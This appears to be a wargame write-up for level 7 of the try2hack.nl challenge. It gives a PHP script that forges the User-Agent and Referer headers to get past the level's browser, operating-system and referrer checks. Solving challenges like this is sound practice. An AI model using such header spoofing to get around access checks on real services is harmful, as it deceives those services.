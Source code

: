 #### Level 7

After I figured out that this level was broken, it was quite easy. The server first require that you use IE 7.66.
I made a php script which sends a HTTP request where I set the user-agent to meet the requirements.
Then the server complains about not using Unix or Linux, and then it wants you to be refered from a Microsoft site.
When the server is happy it gives you the URL to level 8.

This PHP script did the job:
```php
<?php

if (!$socket = fsockopen('try2hack.nl', 80, $errno, $errstr, 20)) {
    print $errno . "-" . $errstr;
} 
else {
    $out = "GET /levels/level7-xfkohc.php HTTP/1.1\r\n";
    $out .= "Host: try2hack.nl\r\n";
    $out .= "User-Agent: Mozilla/4.0 (compatible;MSIE 7.66;Linux)\r\n";
    $out .= "Referer: http://www.microsoft.com/ms.htm\r\n";
    $out .= "Connection: Close\r\n\r\n";
    fwrite($socket, $out);
    while (!feof($socket)) {
        print fgets($socket, 2046);
    }
    fclose($socket);
}

?>
```
